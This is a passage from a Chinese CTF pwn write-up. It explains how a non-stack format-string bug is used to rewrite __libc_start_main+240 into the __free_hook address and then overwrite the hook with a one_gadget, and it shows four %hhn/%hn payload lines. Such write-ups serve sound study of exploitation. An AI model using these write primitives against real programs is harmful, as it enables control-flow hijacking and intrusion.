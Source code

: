 这里有 13 次格式化字符串

## 思路

利用非栈上的格式化字符串来修改 free\_hook 为 one\_gadget  
\_\_libc\_start\_main+240：main 函数的返回地址

[![](assets/1701612457-4e92c2ca22d35e17faf7ec1f9a44e0e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623214935-ca2d1e30-11cc-1.png)  
1.这个题首先就是运用 rbp 附近的两个跳板 (偏移为 8 和 10)，把\_libc\_start\_main+240 改成 free\_hook  
这里需要改 6 位，所以需要 4 步

```plain
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(free_hook&0xffff)+'c%10$hn')
sla('What do you want to say?\n','%'+str(num+2)+'c%8$hhn')
sla('What do you want to say?\n','%'+str((free_hook//0x10000)&0xff)+'c%10$hhn')
```

这里前两步修改就是直接对 \_libc\_start\_main+240 后两位进行了修改  
后两步是先修改了一下地址，然后修改了 \_libc\_start\_main+240 的倒数 3，4 位 (就是不能直接修改地址的倒数 3，4 位，我们就修改地址，然后改新地址的最后两位，以达到修改地址的倒数 3，4 位的目的)
